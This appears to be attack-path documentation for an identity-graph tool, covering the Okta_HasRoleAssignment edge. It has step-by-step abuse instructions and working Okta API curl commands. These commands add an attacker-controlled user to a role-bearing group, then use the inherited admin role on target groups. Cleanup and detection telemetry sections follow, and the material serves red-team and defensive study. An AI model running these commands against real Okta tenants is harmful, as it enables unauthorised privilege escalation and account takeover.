

## General Information

The Okta_HasRoleAssignment edges connect users, groups, and applications to their respective Okta_RoleAssignment nodes. The Okta_ScopedTo edges connect the Okta_RoleAssignment nodes to the resources they are scoped to, such as the organization or specific groups or applications.



## Abuse Info

`Okta_HasRoleAssignment` identifies the concrete assignment object that binds the source principal to an Okta admin role. It is not directly abusable alone, but it tells an attacker exactly which assignment to inspect for role type, status, scope, targets, and custom-role resource set. Control of the source principal becomes dangerous when this assignment is active and the role has useful scope.

For a user source, authenticate as the user. For a group source, compromise any member of the source group so the member inherits the group's admin assignment. For an application source, authenticate as the source client and request an OAuth access token for the Okta Management API scopes granted to that client.

To abuse this edge:

1. Compromise the source principal or a user who inherits the source group's role assignment.
2. Retrieve the destination `Okta_RoleAssignment` and confirm it is `ACTIVE`.
3. Follow `Okta_HasRole` from the source principal to identify the assigned built-in role or custom role.
4. Follow `Okta_ScopedTo` from the destination assignment to identify the resource scope.
5. For standard roles, use role targets to determine the affected groups or applications. For custom roles, inspect the resource set and custom role permissions.
6. Use the derived permission edge emitted from the assignment, such as `Okta_AppAdmin`, `Okta_GroupAdmin`, `Okta_HelpDeskAdmin`, `Okta_OrgAdmin`, `Okta_SuperAdmin`, `Okta_ResetPassword`, `Okta_AddMember`, or `Okta_ReadClientSecret`.

If the attacker can modify the destination role assignment, they can also expand targets, add a resource set binding member, or create a second assignment for a controlled principal. That expansion is the concrete abuse; this edge shows which assignment object to change.

Using the Admin Console:

1. Sign in as the source user, a member of the source group, or an administrator who can inspect the source client.
2. Open **Security** > **Administrators** and find the source principal.
3. Open the destination role assignment and record the role, assignment type, status, and scope.
4. If the source is a group, add or compromise a group member to inherit the assignment.
5. Navigate to the scoped resource and perform the action represented by the derived edge.
6. If modifying the assignment is part of the path, add only the target or binding member needed for the operation.
7. Verify the downstream effect, such as a reset user, added group member, changed app, or readable client secret.

Using the Okta API:

1. Set variables for the source principal, role assignment, and a controlled user for inherited group-role testing.

    ```bash
    export OKTA_ORG="https://contoso.okta.com"
    export OKTA_API_TOKEN="REDACTED"
    export SOURCE_USER_ID="00u..."
    export SOURCE_GROUP_ID="00g..."
    export SOURCE_CLIENT_ID="0oa..."
    export ROLE_ASSIGNMENT_ID="JBC..."
    export CONTROLLED_USER_ID="00u..."
    export TARGET_GROUP_ID="00g..."
    ```

2. Retrieve the destination role assignment. Use the path that matches the source principal type.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$SOURCE_USER_ID/roles/$ROLE_ASSIGNMENT_ID?expand=targets/catalog/apps&expand=targets/groups" \
      | tee /tmp/okta-user-role-assignment.json

    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/groups/$SOURCE_GROUP_ID/roles/$ROLE_ASSIGNMENT_ID?expand=targets/catalog/apps&expand=targets/groups" \
      | tee /tmp/okta-group-role-assignment.json

    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/oauth2/v1/clients/$SOURCE_CLIENT_ID/roles/$ROLE_ASSIGNMENT_ID?expand=targets/catalog/apps&expand=targets/groups" \
      | tee /tmp/okta-client-role-assignment.json
    ```

3. Inspect the role assignment status, role type, assignment type, and embedded targets.

    ```bash
    jq '{id, label, type, status, assignmentType, resourceSet: ."resource-set", targets: ._embedded.targets}' \
      /tmp/okta-user-role-assignment.json
    ```

4. If the source is a group and you need to inherit the role, add the controlled user to the source group.

    ```bash
    curl -i -sS -X PUT \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/groups/$SOURCE_GROUP_ID/users/$CONTROLLED_USER_ID"
    ```

    A successful group membership change returns `204 No Content`.

5. Verify the controlled user is a source group member and can inherit the role assignment.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/groups/$SOURCE_GROUP_ID/users?limit=200" \
      | jq -r '.[] | select(.id == env.CONTROLLED_USER_ID) | [.id, .profile.login] | @tsv'
    ```

6. Use the derived edge for the actual action. This example adds the controlled user to a scoped target group.

    ```bash
    curl -i -sS -X PUT \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/groups/$TARGET_GROUP_ID/users/$CONTROLLED_USER_ID"
    ```

## Cleanup after Abuse

Cleanup for `Okta_HasRoleAssignment` restores the destination assignment's original principal, role, and scope, removes temporary inheritance created to use the assignment, and reverses the downstream admin action performed with that assignment.

Cleanup using Admin Console:

1. Open **Security** > **Administrators** and locate the destination role assignment.
2. Remove any temporary assignee, target, resource set binding member, or resource set membership added for the operation.
3. If the source was a group, remove the controlled user from the source group.
4. Reverse the downstream action performed with the assignment, such as group membership, app assignment, password reset, factor reset, or credential change.
5. Revoke sessions and tokens for users or service clients that received access through the assignment.
6. Verify the role assignment and derived edge match the pre-abuse state.

Cleanup using API:

1. Remove temporary membership from the source role-bearing group.

    ```bash
    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/groups/$SOURCE_GROUP_ID/users/$CONTROLLED_USER_ID"
    ```

2. Remove temporary access from the scoped destination group if that was the downstream action.

    ```bash
    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/groups/$TARGET_GROUP_ID/users/$CONTROLLED_USER_ID"
    ```

3. Delete a temporary role assignment if one was created for the operation.

    ```bash
    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$SOURCE_USER_ID/roles/$ROLE_ASSIGNMENT_ID"

    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/groups/$SOURCE_GROUP_ID/roles/$ROLE_ASSIGNMENT_ID"

    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/oauth2/v1/clients/$SOURCE_CLIENT_ID/roles/$ROLE_ASSIGNMENT_ID"
    ```

4. Revoke sessions for the controlled user if an interactive session was created through the assignment.

    ```bash
    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$CONTROLLED_USER_ID/sessions?oauthTokens=true"
    ```

5. Verify the role assignment and temporary memberships are gone.

    ```bash
    curl -i -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$SOURCE_USER_ID/roles/$ROLE_ASSIGNMENT_ID"

    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/groups/$SOURCE_GROUP_ID/users?limit=200" \
      | jq -r '.[] | select(.id == env.CONTROLLED_USER_ID)'
    ```

    A deleted role assignment returns `404 Not Found`; removed memberships produce no matching user in the list output.

## Opsec Considerations

Creating, deleting, or expanding role assignments is high-signal activity. Relevant telemetry includes `iam.role.assignment.*`, `user.account.privilege.grant`, `user.account.privilege.revoke`, `iam.resourceset.bindings.add`, `iam.resourceset.bindings.delete`, role target changes, group membership changes, and the downstream admin events created by the assigned principal.

For group assignments, defenders should correlate a new group member with immediate administrative actions. For client assignments, correlate client role assignment changes with OAuth client-credentials grants and subsequent Okta Management API calls.

## References

- [Okta roles guide](https://developer.okta.com/docs/api/openapi/okta-management/guides/roles/)
- [Okta role assignment concept](https://developer.okta.com/docs/concepts/role-assignment/)
- [Okta User Role Assignments API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/RoleAssignmentAUser/)
- [Okta Group Role Assignments API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/RoleAssignmentBGroup/)
- [Okta Client Role Assignments API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/RoleAssignmentClient/)
- [Okta Role Resource Set Bindings API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/RoleDResourceSetBinding/)
- [Okta Group API: Assign a user to a group](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/Group/#tag/Group/operation/assignUserToGroup)
- [Okta User Sessions API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/UserSessions/)
- [Okta System Log event types](https://developer.okta.com/docs/reference/api/event-types/)
- [Eli Guy: Okta RBAC Attacks](https://xmcyber.com/blog/okta-rbac-attacks/)
